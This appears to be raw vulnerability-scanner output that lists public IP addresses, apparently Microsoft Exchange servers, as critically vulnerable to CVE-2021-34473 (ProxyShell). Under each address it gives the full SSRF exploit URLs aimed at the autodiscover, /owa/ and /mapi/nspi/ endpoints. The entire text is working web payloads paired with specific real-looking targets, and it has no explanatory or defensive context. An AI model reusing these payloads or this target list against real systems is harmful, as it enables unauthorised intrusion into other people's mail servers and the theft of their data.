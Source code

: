 [CVE-2021-34473] [http] [critical] https://212.176.240.5/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 212.164.209.118  
  
---  
[CVE-2021-34473] [http] [critical] https://212.164.209.118/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://212.164.209.118/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 212.116.121.27  
  
---  
[CVE-2021-34473] [http] [critical] https://212.116.121.27/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://212.116.121.27/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 212.19.22.193  
  
---  
[CVE-2021-34473] [http] [critical] https://212.19.22.193/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://212.19.22.193/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 212.192.40.114  
  
---  
[CVE-2021-34473] [http] [critical] https://212.192.40.114/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://212.192.40.114/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 212.20.53.200  
  
---  
[CVE-2021-34473] [http] [critical] https://212.20.53.200/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://212.20.53.200/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 212.30.184.123  
  
---  
[CVE-2021-34473] [http] [critical] https://212.30.184.123/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
